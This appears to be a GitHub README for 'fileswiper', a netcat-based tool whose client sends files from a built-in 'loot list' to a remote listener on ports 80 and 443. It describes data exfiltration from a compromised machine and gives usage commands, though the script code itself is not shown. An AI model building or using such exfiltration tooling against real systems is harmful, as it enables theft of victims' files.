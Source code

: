 # fileswiper

__Description__:

Automation script to make sending files via netcat faster and more convenient.

Client Script:
Will send all files on this machine that are in the loot list in the program.
Any additional files you want to select can also be entered.

Server Script:
Will open a listener on ports 443 and 80 for each file that the client script sends.


__Usage__:

Server script: `./server.sh`

Client script: `./client.sh RHOST [additional files or directories]`


__Screenshots__:

Server

   <img src="Images/server1.jpg" width = "300">
  
Client

   <img src="Images/client.png" width = "500">

Results

   <img src="Images/image.png" width = "300">
